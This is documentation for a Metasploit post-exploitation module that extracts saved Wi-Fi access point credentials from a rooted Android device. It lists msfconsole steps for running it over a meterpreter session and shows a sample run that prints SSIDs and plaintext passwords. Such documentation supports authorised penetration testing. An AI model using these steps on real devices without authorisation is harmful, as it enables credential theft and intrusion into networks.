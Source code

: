## Vulnerable Application

  This post-exploitation module will extract all saved Wireless access point credentials from the target android device.

## Verification Steps

  1. Start `msfconsole`
  2. Get a **root** meterpreter session (use exploit/android/local/...)
  3. `use post/android/gather/wireless_ap`
  4. `set SESSION <session id>`
  5. `run`
  6. You should be able to see the extracted credentials.

## Options

### SESSION

The session to run the module on.

## Extracted data

  Wireless AP credentials (SSID, network type and password)

## Scenarios


```
msf exploit(multi/handler) > use post/android/gather/wireless_ap
msf post(android/gather/wireless_ap) > set session 1
session => 1
msf post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPA-PSK   lkjhgfdsa
 FCP_WiFi              NONE
 HomeCable             WPA-PSK   p@$$w0rd
 Troika                WPA-PSK   ika@12345
 

[+] Secrets stored in: ~/.msf4/loot/...wireless.ap.cred_...txt
[*] Post module execution completed
msf post(android/gather/wireless_ap) >
```
